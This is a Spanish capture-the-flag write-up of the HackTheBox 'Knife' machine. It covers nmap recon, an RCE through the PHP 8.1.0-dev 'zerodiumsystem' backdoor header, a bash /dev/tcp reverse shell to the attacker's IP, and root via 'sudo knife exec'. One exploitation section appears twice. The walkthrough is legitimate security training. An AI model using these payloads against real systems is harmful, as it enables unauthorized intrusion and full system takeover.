 Knife es una máquina linux de nivel fácil, creada por [MrKN16H7](https://app.hackthebox.eu/users/98767), en la que vamos a explotar un bug de PHP para conseguir una RCE
y ejecutar un binario como root para convertirnos en él.

![imagen](https://user-images.githubusercontent.com/71317374/131216908-df335eaa-0496-43e5-bc76-2d77ec7be9f9.png)

Según los seres vivos que hay por HackTheBox, la máquina es así:

![imagen](https://user-images.githubusercontent.com/71317374/131216886-9c9c8b8e-6fef-4467-914f-d108e367b3d5.png)

Muy CTF(y es así)

1 - [Reconocimiento inicial](#recon)

2 - [Reconocimiento profundo](#deeprecon)

3 - [Explotación](#exploit)

4 - [Escalada de privilegios y flag](#privesc)

# [Reconocimiento inicial] {#recon}

```bash
# Nmap 7.92 scan initiated Fri Aug 27 20:20:39 2021 as: nmap -p- --open --min-rate 3000 -sS -Pn -n -v 10.10.10.242 -oG ports -oN ports.nmap
Nmap scan report for 10.10.10.242
Host is up (0.30s latency).
Not shown: 51068 closed tcp ports (reset), 14465 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Aug 27 20:21:14 2021 -- 1 IP address (1 host up) scanned in 34.80 seconds
```

## Pequeña explicación de los parámetros de nmap
* -p-: Escanea todos los puertos.
* --open: Solo muestra los que están abiertos.
* --min-rate: Envía un mínimo de paquetes por segundo para que vaya más rápido, con un número muy alto, como 10000, puede dar falsos positivos o negativos. 
* -sS: TCP SYN Port Scan, agiliza un poco el escaneo ya que no espera a que se complete el [Three-Way Handshake](https://networksigma.com/tcp-3-way-handshake/).
* -Pn: Deshabilita el descubrimiento de host mediante pings a la máquina para comprobar si está activa.
* -n: Deshabilita la resolución DNS
* -v: Muestra los puertos a medida que los descubre
* -oG: Guarda el escaneo de nmap en diferentes formatos, -oG lo guarda en formato grepeable, para luego usar la [función extractPorts de s4vitar](https://pastebin.com/tYpwpauW)
* -oN: Guarda el escaneo como aparece por consola.

Los puertos abiertos son el 22, para obtener una shell segura(SSH), y 80, que hostea un servidor HTTP.

# [Reconocimiento profundo] {#deeprecon}

Ahora que tenemos los puertos abiertos de la máquina, vamos a enumerarlos(de forma básica) y a detectar la versión y servicio que corren.

```bash
❯ nmap -sCV -p22,80 10.10.10.242 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-08-28 15:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

# Explotación {#exploit}

Si vamos a la página web, lo primero que encontramos es esto, un servidor Apache con PHP 8.1:

![imagen](https://user-images.githubusercontent.com/71317374/131220276-fec35a9e-4b46-4692-b37f-6d8bef6caf25.png)

Si buscamos exploits para la versión de Apache que corre no encontramos nada, en cambio, si buscamos exploits para la versión de PHP que corre, encontramos uno muy interesante que nos permite ejecutar código mediante la cabecera `User-Agentt: zerodiumsystem("[comando]");` en la petición.

> An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header. 

[https://flast101.github.io/php-8.1.0-dev-backdoor-rce/](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

Esto se puede hacer de tres formas: con un script automatizado para ello, con cURL mediante el parámetro -H o interceptando la petición con BurpSuite y añadiendo esta cabecera.

## Explotación con cURL

cURL tiene el parámetro -H, mediante el cual le puedes asignar más cabeceras a tu petición si son necesarias, entonces si le añadimos la cabecera `User-Agentt: zerodiumsystem("[comando]");` podríamos ejecutar comandos a nivel de sistema en la máquina. El comando sería así:
 ```bash
 ❯ curl -s -H 'User-Agentt: zerodiumsystem("whoami");' 10.10.10.242 | grep -i doctype -B 1 | grep -v -i doctype
 ```
 Le he añadido grep para ver únicamente el resultado del comando, que se encuentra al principio del código de la página web.
 
 ## Explotación con cURL

cURL tiene el parámetro -H, mediante el cual le puedes asignar más cabeceras a tu petición si son necesarias, entonces si le añadimos la cabecera `User-Agentt: zerodiumsystem("[comando]");` podríamos ejecutar comandos a nivel de sistema en la máquina. El comando sería así:
 ```bash
 ❯ curl -s -H 'User-Agentt: zerodiumsystem("whoami");' 10.10.10.242 | grep -i doctype -B 1 | grep -v -i doctype
 ```
 Le he añadido grep para ver únicamente el resultado del comando, que se encuentra al principio del código de la página web.
 
 ## Explotación con BurpSuite
 
 Con BurpSuite hay que interceptar la petición hacia la página web, y modificarla con la misma cabecera de antes. Es recomendable pasar la petición al Repeater con Ctrl + R para poder modificarla como quieras y sin tener que recargar la página cada vez que vayas a ejecutar el comando. 
 
 ## Conseguir una Reverse Shell
 
 Ahora solo habría que ejecutar la Reverse Shell de siempre, si no la sabes es:
 
 ```bash
 bash -c 'bash -i >& /dev/tcp/tuip/puertoEnElQueTienesNC 0>&1'
 ```
 Y la petición quedaría así:
 
 ```bash
 GET / HTTP/1.1
Host: 10.10.10.242
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.49/443 0>&1'");
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Yyyyyy estamos dentrooooooo :D

![imagen](https://user-images.githubusercontent.com/71317374/131221770-5691e50a-7486-48ef-819f-9549fd457f4e.png)

# Flag y Privesc {#privesc}

Ahora mismo, si por cualquier cosa hiciera Ctrl+C tendría que volver a enviarme la shell, cosa que nadie quiere, así que tendremos que hacer [tratamiento de la TTY](https://www.thehackersnow.com/tratamiento-de-una-tty/)

Vale, ahora que tenemos una consola interactiva en el sistema, podríamos ir a ver la User Flag, ubicada en /home/james/user.txt:
```bash
james@knife:~$ cat user.txt | head -c 15;echo
cf42b739b6d4f75
```

Ahora que tenemos taambién la flag, habría que centrarse en la escalada de privilegios, si hacemos `sudo -l` para ver si podemos ejecutar algún comando o binario como otro usuario, obtenemos: 
```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Entonces podemos ejecutar **knife** como root, si buscamos en [gtfobins](gtfobins.github.io) sobre este binario, vemos que es capaz de correr código Ruby, y que se puede usar para escalar privilegios.

>Sudo
>
>If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain >privileged access.
>
>    `sudo knife exec -E 'exec "/bin/sh"'`

Así que ejecutamos ese comando y...

![imagen](https://user-images.githubusercontent.com/71317374/131222071-b59c07d1-a759-4382-9576-569e603afcfe.png)

Yasta, somos root y podríamos irnos a /root a recoger nuestro premio por conseguir el root.

Ha sido una máquina en la que no ha habido que enumerar mucho, lo cual la hace más rápida. Me ha gustado como hay que ganar acceso a la máquina y la historia detrás del bug de PHP. Si te ha gustado puedes darme una estrellita al blog :)

Y recuerda, Metasploit siempre es la solución.
